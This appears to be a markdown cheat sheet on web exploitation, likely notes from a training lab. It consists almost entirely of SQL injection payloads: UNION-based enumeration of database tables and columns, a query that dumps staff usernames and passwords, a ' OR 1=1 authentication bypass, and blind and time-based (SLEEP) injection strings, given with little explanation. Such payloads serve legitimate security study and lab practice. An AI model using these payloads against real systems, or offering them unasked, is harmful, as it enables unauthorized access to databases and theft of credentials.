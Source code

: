 
# Web Exploitation

---------------------------------------------------------------------------
## Sql Injection
- ###  Select
```
select * from users; 
```
```
select username,password from users;
```
```
select * from users where username='admin';
```
```
select * from users where username='admin' or username='jon';
```
```
select * from users where username like 'ad%';
```
- ### Union  

```
0 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,database()
```
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
```

```

- ###  Authentication Bypass   
```
' OR 1=1;--
```
- ### Blind SQLI
```
admin123' UNION SELECT 1,2,3;-- 
```
```
admin123' UNION SELECT 1,2,3 where database() like '%';--

```
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```
```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

- ### Time Based SQLI
```
admin123' UNION SELECT SLEEP(5),2;--
```

```
admin123' UNION SELECT SLEEP(5),2 from users where username like 'admin' and password like '4961';
```
